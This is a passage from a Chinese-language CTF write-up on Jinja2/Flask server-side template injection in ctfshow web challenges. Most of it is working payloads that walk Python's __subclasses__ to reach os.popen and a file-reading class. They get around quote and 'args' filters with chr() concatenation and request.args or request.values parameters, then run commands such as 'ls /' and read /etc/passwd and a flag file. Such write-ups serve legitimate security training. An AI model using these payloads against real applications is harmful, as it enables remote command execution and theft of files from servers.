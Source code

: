 

![](https://xzfile.aliyuncs.com/media/upload/picture/20191207110224-fe3c4df8-189d-1.jpg)


通过payload爆破subclasses，获取某个subclasses中含有chr的类索引，可以看到爆破出来很多了，这里我随便选一个。

```
{%set+chr=[].__class__.__bases__[0].__subclasses__()[77].__init__.__globals__.__builtins__.chr%}
```

接着尝试使用chr尝试绕过后续所有的引号：

```
{%set+chr=[].__class__.__bases__[0].__subclasses__()[77].__init__.__globals__.__builtins__.chr%}{{[].__class__.__mro__[1].__subclasses__()[300].__init__.__globals__[chr(111)%2bchr(115)][chr(112)%2bchr(111)%2bchr(112)%2bchr(101)%2bchr(110)](chr(108)%2bchr(115)).read()}}
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20191207110224-fea00528-189d-1.jpg)

* * *

假设传入`{{ config.__class__.__init__.__globals__['os'] }}`,因为引号被过滤，所以无法执行，可以把`'os'`换成`request.args.a`(这里的a可以理解为自定义的变量，名字可以任意设置)

随后在后面传入a的值，变成`{{ config.__class__.__init__.__globals__[request.args.a] }}&a=os`，与原命令等效

Payload:  
比如我们要构造`?name={{ config.__class__.__init__.__globals__['os'].popen('cat ../flag').read() }}`，但是引号不能使用了，就可以把这两处使用引号的地方替换掉，最终变成  
`?name={{ config.__class__.__init__.__globals__[request.args.a].popen(request.args.b).read() }}&a=os&b=cat ../flag`  

### ctfshow web364

这个题过滤了单双引号，args，所以上一题的思路无法沿用 换个方法

咋绕过呢，看到了sp4c1ous师傅的文章

* * *

**利用request对象绕过**

```
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
#像下面这样就可以直接利用了
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /
```

**等同于：** 

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}
​
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

**如果过滤了**`args`，可以将其中的`request.args`改为`request.values`，POST和GET两种方法传递的数据`request.values`都可以接收。
